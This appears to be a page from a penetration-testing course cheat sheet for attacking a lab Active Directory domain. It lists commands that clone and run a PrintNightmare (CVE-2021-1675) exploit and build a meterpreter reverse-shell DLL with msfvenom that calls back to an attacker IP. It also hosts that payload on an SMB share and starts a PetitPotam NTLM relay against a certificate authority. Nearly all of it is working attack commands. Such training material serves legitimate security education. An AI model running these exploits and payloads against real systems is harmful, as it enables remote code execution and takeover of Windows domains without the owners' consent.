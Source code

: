 #### Cloning the Exploit
```Shell
git clone https://github.com/cube0x0/CVE-2021-1675.git
```
Used to clone a PrintNightmare exploit using git from a Linux-based host.

#### Install cube0x0's Version of Impacket
```Shell
pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install
```
Used to ensure the exploit author's (cube0x0) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host.

#### Enumerating for MS-RPRN
```Shell
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
Used to check if a Windows target has MS-PAR & MSRPRN exposed from a Linux-based host.

#### Generating a DLL Payload
```Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll
```
Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host.

#### Creating a Share with smbserver.py
```Shell
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```
Used to create an SMB server and host a shared folder (CompData) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host.

#### *Configure & Start an MSF multi/handler*

#### Running the Exploit
```Shell
sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'
```
Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host.

### PetitPotam (MS-EFSRPC)

#### Starting ntlmrelayx.py
```Shell
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```
Impacket tool used to create an NTLM relay by specifiying the web enrollment URL for the Certificate Authority host. Perfomred from a Linux-based host.
